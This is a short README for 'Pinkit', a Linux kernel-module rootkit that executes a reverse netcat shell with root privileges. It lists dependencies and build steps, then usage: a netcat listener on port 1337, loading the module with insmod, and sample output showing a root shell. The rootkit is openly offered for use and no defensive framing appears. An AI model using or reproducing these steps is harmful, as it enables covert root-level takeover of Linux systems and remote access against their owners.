 # Pinkit
A quick LKM rootkit that executes a reverse netcat shell with root privileges.

INSTALL
[Dependencies]
apt install build-essential linux-headers-$(uname -r)

[Compile Kernel Module]
cd Pinkit; make;

[Execute Reverse Shell]
# nc must be installed
nc -lvp 1337 <- Run netcat listener in another shell
insmod pinkit.ko <- Load LKM
sh-4.4# id
uid=0(root) gid=0(root) groups=0(root)
